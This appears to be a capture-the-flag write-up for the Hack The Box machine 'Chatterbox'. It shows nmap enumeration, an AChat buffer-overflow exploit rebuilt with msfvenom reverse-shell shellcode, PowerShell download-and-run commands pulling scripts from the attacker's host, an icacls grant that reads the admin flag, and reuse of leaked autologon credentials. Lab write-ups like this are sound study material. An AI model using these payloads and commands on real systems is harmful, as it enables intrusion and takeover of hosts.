



# Chatterbox
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.74 -T4                       
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-01 11:10 BST
Stats: 0:08:51 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 52.82% done; ETC: 11:27 (0:07:54 remaining)
Nmap scan report for 10.10.10.74 (10.10.10.74)
Host is up (0.19s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
9255/tcp  open     mon
9256/tcp  open     unknown

```
```
└─$ nmap -Pn -p135,139,445,9255,9256 -sC -sV 10.10.10.74 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-01 11:42 BST
Nmap scan report for 10.10.10.74 (10.10.10.74)
Host is up (0.13s latency).

PORT     STATE SERVICE     VERSION
135/tcp  open  msrpc       Microsoft Windows RPC
139/tcp  open  netbios-ssn Microsoft Windows netbios-ssn
445/tcp  open  �+sN'V      Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp open  http        AChat chat system httpd
|_http-title: Site doesn't have a title.
|_http-server-header: AChat
9256/tcp open  achat       AChat chat system
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h19m25s, deviation: 2h18m36s, median: 4h59m23s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-09-01T11:41:53-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-09-01T15:41:51
|_  start_date: 2023-09-01T15:08:09

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.74 seconds

```
- Nothing on `smb`
- Strange ports `9255` and `9256`
  - Google shows 



- `searchsploit`


## Foothold
- We have an exploit from `exploit-db` but it pops `calc.exe`
  - We have to modify it
    - Create a new `payload`
    - Change `url`s etc



- Generate a new `payload` using `msfvenom`
```
└─$ msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.10.16.4 LPORT=6666 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 834 (iteration=0)
x86/unicode_mixed chosen with final size 834
Payload size: 834 bytes
Final size of python file: 4117 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51"
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x49\x41\x68"
...
```

- Replace the `buf` in the script with the new `payload`
  - Launch `meterpreter`
  - But the session dies




- Let's try powershell 
  - `powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.16.4/shell.ps1')"`

```
└─$ msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c \"IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.16.4/shell.ps1')\"" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 692 (iteration=0)
x86/unicode_mixed chosen with final size 692
Payload size: 692 bytes
Final size of python file: 3417 bytes
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51"
buf += b"\x41\x44\x41\x5a\x41\x42\x41\x52\x41\x4c\x41\x59"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x51\x41\x49\x41\x68"
buf += b"\x41\x41\x41\x5a\x31\x41\x49\x41\x49\x41\x4a\x31"
buf += b"\x31\x41\x49\x41\x49\x41\x42\x41\x42\x41\x42\x51"
buf += b"\x49\x31\x41\x49\x51\x49\x41\x49\x51\x49\x31\x31"
buf += b"\x31\x41\x49\x41\x4a\x51\x59\x41\x5a\x42\x41\x42"
buf += b"\x41\x42\x41\x42\x41\x42\x6b\x4d\x41\x47\x42\x39"
buf += b"\x75\x34\x4a\x42\x59\x6c\x39\x58\x52\x62\x79\x70"
buf += b"\x69\x70\x6d\x30\x61\x50\x33\x59\x79\x55\x50\x31"
...
```

- Replace payload again
  - And run the exploit


- By the way [0xdf](https://0xdf.gitlab.io/2018/06/18/htb-chatterbox.html) uses `script + meterpreter + auto-migrate script` technique to get a shell, might worth checking
  - He also shows other ways to get a shell
## Root
- `Alfred`
```
PS C:\users> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```
```
PS C:\users> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192  Mandatory group, Enabled by default, Enabled group

```

- So it looks like `Alfred` is the owner of `root.txt`
```
PS C:\users> dir Administrator\desktop


    Directory: C:\users\Administrator\desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-ar--          9/1/2023  11:08 AM         34 root.txt                          

```
```
PS C:\users> type Administrator\desktop\root.txt
PS C:\users> Get-Content : Access to the path 'C:\users\Administrator\desktop\root.txt' is d
enied.
At line:1 char:5
+ type <<<<  Administrator\desktop\root.txt
    + CategoryInfo          : PermissionDenied: (C:\users\Administrator\deskto 
   p\root.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsof 
   t.PowerShell.Commands.GetContentCommand

```

- We have access to `Desktop`
```
PS C:\users> icacls Administrator\desktop\
Administrator\desktop\ NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                       CHATTERBOX\Administrator:(I)(OI)(CI)(F)
                       BUILTIN\Administrators:(I)(OI)(CI)(F)
                       CHATTERBOX\Alfred:(I)(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files
```
- But can't read the flag
```
PS C:\users> icacls Administrator\desktop\root.txt
Administrator\desktop\root.txt CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files

```
- Let's try granting the permissions
```
PS C:\users> icacls Administrator\desktop\root.txt /grant alfred:F
processed file: Administrator\desktop\root.txt
Successfully processed 1 files; Failed processing 0 files
```
```
PS C:\users> icacls Administrator\desktop\root.txt
Administrator\desktop\root.txt CHATTERBOX\Alfred:(F)
                               CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files
```
### Alternative way
- Running `powerup` shows `autologon` creds
```
PS C:\users\Alfred> IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.16.4/powerup.ps1')     
PS C:\users\Alfred> Invoke-Allchecks


DefaultDomainName    : 
DefaultUserName      : Alfred
DefaultPassword      : Welcome1!
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   : 
Check                : Registry Autologons
```

- We can try reusing the same password for Administrator via `psexec`
  - It works


